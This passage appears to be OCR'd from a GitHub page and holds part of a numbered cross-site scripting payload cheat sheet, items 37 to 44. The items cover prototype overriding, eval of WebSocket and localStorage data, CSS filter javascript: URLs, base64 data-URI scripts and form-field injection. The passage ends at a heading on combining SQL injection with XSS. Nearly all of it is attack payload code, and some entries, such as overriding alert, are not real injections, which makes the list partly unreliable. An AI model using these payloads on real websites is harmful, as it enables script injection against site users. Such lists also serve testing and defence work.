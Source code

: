 <script>document.body.innerHTML += '\u003Cscript\u003Ealert(\u0027XSS\u0027)\u003C/script\u003E';</script>


37. Exploiting Object Prototypes

Modifying Prototypes:

Object.prototype.toString = function() { alert('XSS'); };


38. Payloads in WebSocket Messages

Sending Malicious Payloads:

var ws = new WebSocket('ws://example.com');
ws.onmessage = function(event) { eval(event.data); };
ws.send("<script>alert('XSS')</script>");


39. Advanced CSS Injection

CSS Filters:

filter: progid:DXImageTransform.Microsoft.AlphaImageLoader(src='javascript:alert("XSS")', sizingMethod='scale');


40. Using Base64 Encoding

Base64 Encoded Payload:

<script src="data:text/javascript;base64,YWxlcnQoJ1hTUycpOw=="></script>


41. Function Overriding

Overriding alert Function:

window.alert = function() { console.log('XSS'); };
alert('XSS');


42. Testing XSS in Local Storage

Storing XSS in Local Storage:

localStorage.setItem('xss', "<script>alert('XSS')</script>");
var xssPayload = localStorage.getItem('xss');
eval(xssPayload);


43. Exploiting Malicious Forms

Form Submission with Payload:

<form action="http://example.com" method="post">
    <input type="text" name="data" value="<script>alert('XSS')</script>">
    <input type="submit">
</form>


44. Using XSS in SQL Injection

Combining SQL and XSS:
